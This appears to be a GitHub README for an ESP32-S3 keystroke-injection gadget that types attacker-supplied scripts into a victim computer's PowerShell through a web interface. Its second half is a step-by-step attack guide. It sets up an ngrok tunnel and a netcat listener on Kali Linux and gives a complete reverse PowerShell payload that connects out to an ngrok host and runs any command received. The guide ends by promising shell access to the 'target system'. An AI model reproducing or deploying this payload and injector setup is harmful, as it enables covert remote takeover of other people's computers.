 # PROJECT_K

**KEYSROKE INJECTION
MODULE USING ESP32
HID EMULATION DEVICE**
**this device will type command what we give from web server and run this script on the system**



first install aurdino ide software on window 
add libraries which are needed<br/> 
#include "Arduino.h"<br/>
#include "USB.h"<br/>
#include "USBHIDKeyboard.h"<br/>
#include <WiFi.h><br/>
#include <WebServer.h><br/>


  1. Open Arduino IDE.
  2. Go to `Tools` > `Board` > `Boards Manager`.
  4. Search for "ESP32" and install the package by Espressif Systems.
  5. goto tools in main page of ide.
  6. click on boards
  7. then select esp32 s3 boards.
  8. copy and paste code which is provided on github repo.
  10. change wifi password to your wifi settings.
  11. change payload if needed
  12. Connect the ESP32-S3 Mini to Your Computer

    - Use a USB cable to connect the ESP32-S3 Mini to your computer.

    - If the device is not recognized, you may need to install the appropriate USB-to-UART bridge drivers. Common drivers include:
  12. Select the Correct Port

    - In the Arduino IDE, navigate to `Tools` > `Port`, and select the port corresponding to your ESP32-S3 Mini device.
  13. Upload the Sketch

    - Click the upload button (right-pointing arrow) in the Arduino IDE to compile and upload the sketch to your device.

    **Note**: Some users have reported issues when uploading code to the ESP32-S3 Mini. If you encounter such problems, you might need to manually set the device to bootloader mode:

    - Press and hold the `BOOT` button on the device.

    - While holding the `BOOT` button, press the `RESET` button once.

    - Release the `BOOT` button.


  ## Connecting to Wi-Fi ##

    -  now plugin the device into pc/laptop. 
    -  you get ip address of the device connnected to wifi in serial monitor. copy the ip address from it and paste on the         broswer search bar.
    -  then press enter.
    -  then a local webpage will open on broswer. webpage will look like the image shown below
   ![Alt text](img.jpg)

   
    - now paste your script to execte on powershell window 
    - then click **send** to execute on laptop/pc.

**this is the project keystroke injection module **



##**now for advance  hacking we use kali linux, reverse powershell, ngrok server**

  ##work to done on kali linux

  1. use kali liux os in one of your system
  2. then we want to install ngrok in the kali linux os
  3. open command prompt in the kali
  4. paste the command

         curl -sSL https://ngrok-agent.s3.amazonaws.com/ngrok.asc \
          | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null \
          && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" \
         | sudo tee /etc/apt/sources.list.d/ngrok.list \
          && sudo apt update \
          && sudo apt install ngrok
  5. now login to accout to ngrok account and copy your authentication TOKEN
  6. now type the command and paste token to login to your account in kali linux.

         ngrok config add-authtoken <TOKEN>

  
  7.we want to setup  server to avalible on public host

        ngrok tcp 1337
        
  8.then we want to setup listner for reverse shell connection

        nc -lvnp 1337

  9. output window will be like

    ngrok                           (Ctrl+C to quit)

    Session Status                online
    Account                       inconshreveable (Plan: Free)
    Version                       3.0.0
    Region                        United States (us)
    Latency                       78ms
    Web Interface                 http://127.0.0.1:4040
    Forwarding                    tcp://0.tcp.in.ngrok.io:15660 -> http://localhost:8080

    Connections                   ttl     opn     rt1     rt5     p50     p90
                                  0       0       0.00    0.00    0.00    0.00


10. we need to copy the ngrok port number it would be like 15660 or other 5 digit number:

        tcp://0.tcp.in.ngrok.io:15660
    


##payload part

1. our payload is a reverse powershell code which makes a powershell connection to the listner. we need to setup ngrok before executing payload.
2. code

        $client = New-Object System.Net.Sockets.TCPClient("0.tcp.in.ngrok.io", 15660)
        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}
        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
        $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()
        }
        $client.Close()
3.now replace 15660 number with latest ngrok server port from this line

     $client = New-Object System.Net.Sockets.TCPClient("0.tcp.in.ngrok.io", 15660)

# now payload has been created 
  ##1.  now start ngrok server. <br/>
  ##2.  open broswer and type ip address and click enter.<br/>
  ##3.  now paste payload in textbox and then click send<br/>
  ##4.  In 5 second you will get connetion of target system in kali linux.<br/>
  ##5.  Then click enter. <br/>
  ##6.  now access of powershell has been to the kali linux.<br/>
  ##7.  we can execute so many commands to the system.<br/>
  




    
    
  

    



